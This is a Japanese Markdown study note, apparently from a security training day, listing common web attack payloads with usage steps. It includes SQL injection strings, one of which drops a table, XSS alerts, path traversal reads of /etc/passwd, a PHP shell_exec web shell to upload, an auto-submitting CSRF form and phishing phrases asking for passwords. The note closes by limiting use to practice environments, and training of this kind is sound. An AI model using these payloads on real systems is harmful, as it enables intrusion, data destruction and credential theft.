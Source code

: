 ```yaml
---
created: 2025-09-17T10:42 (UTC +09:00)
tags:
  - 帰社日
  - 仕事
type:
author: My Name
---
```

# 捜査ツール 〜攻撃コードリスト〜

---

## 1. SQLインジェクション用ペイロード

- `' OR '1'='1`
- `' OR 1=1--`
- `admin' --`
- `' UNION SELECT null, @@version, null--`
- `'; DROP TABLE users; --`

### 使い方
- ログインや検索などの入力欄に上記の文字列を入力し、挙動やエラーメッセージを観察しよう。

---

## 2. クロスサイトスクリプティング（XSS）用ペイロード

- `<script>alert('XSS!')</script>`
- `<img src=x onerror=alert(1)>`
- `<svg/onload=alert(1)>`
- `<body onload=alert('XSS')>`

### 使い方
- 名前やコメント欄など、画面に表示される入力欄に上記の文字列を入力し、アラートが出るか確認しよう。

---

## 3. ソーシャルエンジニアリング用フレーズ例

- 「システム管理者です。パスワードを教えてください」
- 「緊急対応のため、認証情報が必要です」
- 「このリンクからログインし直してください（偽サイト）」

---

## 4. ディレクトリトラバーサル用ペイロード

- `../../../../etc/passwd`
- `..\\..\\..\\..\\windows\\win.ini`
- `%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- `..%2f..%2f..%2f..%2fetc%2fpasswd`

### 使い方
- ファイル名やパスを指定する入力欄に上記の文字列を入力し、意図しないファイルが取得できるか確認しよう。

## 5. ファイルアップロード検証不備用ペイロード

- `<?php echo shell_exec($_GET['cmd']); ?>`（.phpファイルとしてアップロード）
- `<script>alert('XSS')</script>`（.html/.svgファイルとしてアップロード）
- 画像ファイルに悪意あるコードを埋め込む

### 使い方
- ファイルアップロード機能で上記のファイルをアップロードし、サーバー上で実行・表示されるか確認しよう。

## 6. CSRF対策なしの攻撃例

- 攻撃用HTML例：
  ```html
  <form action="http://ターゲットサイト/重要操作" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="送信">
  </form>
  <script>document.forms[0].submit();</script>
  ```

### 使い方
- 上記HTMLを自分のサイトやローカルで開き、ターゲットサイトにログインした状態で実行し、意図しない操作が行われるか確認しよう。

---

## 注意

- 実際の業務システムや他人のサービスで絶対に使わないこと！
- あくまで学習・演習用の模擬環境でのみ使用してください
